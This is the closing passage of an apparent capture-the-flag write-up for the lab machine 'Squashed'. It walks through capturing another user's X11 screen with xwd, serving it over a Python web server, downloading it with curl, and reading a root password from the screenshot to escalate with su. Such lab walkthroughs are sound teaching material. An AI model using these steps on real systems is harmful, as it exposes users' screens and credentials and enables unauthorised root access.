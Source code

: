 ```sh-session
xwd -root -screen -display :0 > /tmp/screen.xwd
```

To retrieve the screenshot, set up a python server in the `/tmp` directory and then retrieve it on your host machine by using curl.
```sh-session
curl http://squashed.htb:8000/screenshot.xwd
```

Convert the image using the `convert` commandline utility, and then open it!

```sh-session
convert screenshot.xwd screenshot.png
```

Luckily for us, it's a screenshot of a password manager with the root password!

![Password Manager]({{site.baseurl}}/assets/img/squashed/pwd-manager.png)

Go back to your shell as alex. Use the `su` command and type in the root password to gain administrative access to the machine!

I hope you enjoyed this writeup! Happy hacking :)
